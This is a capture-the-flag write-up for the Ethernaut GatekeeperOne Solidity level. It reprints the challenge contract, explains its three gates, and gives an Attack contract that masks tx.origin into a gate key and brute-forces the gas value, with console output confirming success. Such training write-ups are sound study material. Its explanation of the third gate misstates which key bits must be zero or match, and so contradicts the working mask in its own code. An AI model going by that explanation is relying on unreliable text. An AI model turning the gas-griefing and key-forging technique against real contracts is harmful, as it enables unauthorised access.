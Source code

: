 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge's message:

> Make it past the gatekeeper and register as an entrant to pass this level. - Remember what you've learned from the Telephone and Token levels. - You can learn more about the special function gasleft(), in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

The **GatekeeperOne** contract implements a gatekeeping mechanism that restricts entry to a certain function based on three specific conditions. There is a public address entrant variable that stores the address of the entrant who successfully passes the gatekeeping conditions. Also, we have three modifiers implemented on the **enter()** function: 

### Modifiers

#### gateOne()

This modifier enforces a condition that the *msg.sender* (the caller of the function) is not the same as the *tx.origin* (the origin of the transaction). In other words, it ensures that the function is not called directly but is being called through another contract or function.

#### gateTwo()

This modifier checks if the remaining gas (`gasleft()`) divided by 8191 is equal to zero. It restricts the execution of the function based on the specific gas limit condition.

#### gateThree()

This modifier takes a parameter *_gateKey* of type *bytes8* and enforces three conditions:

- The first condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is equal to the first 16 bits of *_gateKey*. If they are not equal, it throws an error with the message "GatekeeperOne: invalid gateThree part one". ***This condition ensures that the first 16 bits of *_gateKey* are zero***.
- The second condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is not equal to *_gateKey* itself. If they are equal, it throws an error with the message "GatekeeperOne: invalid gateThree part two". ***This condition ensures that the first 32 bits of *_gateKey* are not all zeros***.
- The third condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is equal to the first 16 bits of the *tx.origin* (the origin of the transaction). If they are not equal, it throws an error with the message "GatekeeperOne: invalid gateThree part three". ***This condition ensures that the first 16 bits of *_gateKey* match the first 16 bits of the transaction origin address***.


In the enter() function is the entry point of the contract and is used to gain access based on the gatekeeping conditions. It takes a parameter *_gateKey* of type *bytes8* which is used in the gateThree modifier. The function first applies the *gateOne*, *gateTwo*, and *gateThree* modifiers to enforce the respective conditions. If all the conditions are met, the entrant variable is updated with the *tx.origin* (the origin of the transaction) and the function returns *true*.

It's important to note that the code does not provide any indication of what the gatekeeping conditions are meant to achieve or how they contribute to the functionality or security of the contract.


# Subverting

```solidity
pragma solidity ^0.8.17;

import './GatekeeperOne.sol';

contract Attack{

    GatekeeperOne target;

    constructor(address _target){
        target = GatekeeperOne(_target);
    }

    function attack() external{
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

        for(uint i=0; i<200; i++){
            uint totalGas = (8191*3) + i;
            (bool result, ) = address(target).call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if(result){
                break;
            }
        }
    }

}
```

First in first, check the entrant variable's value.

```shell
await contract.entrant()
'0x0000000000000000000000000000000000000000'
```

After the deploy our attack contract, let's call attack() function. See in [etherscan](https://sepolia.etherscan.io/tx/0xb28373341fc7cf1eba3ac0c67320cef9928268da033ec62771d2386ff422b8d7).

Finally, check the entrant variable's value again. As you can see, we beat the GatekeeperOne challenge successfully.

```shell
await contract.entrant()
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

```shell
player
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

Ethernaut's message:

> Well done! Next, try your hand with the second gatekeeper...


**_by wasny0ps_**

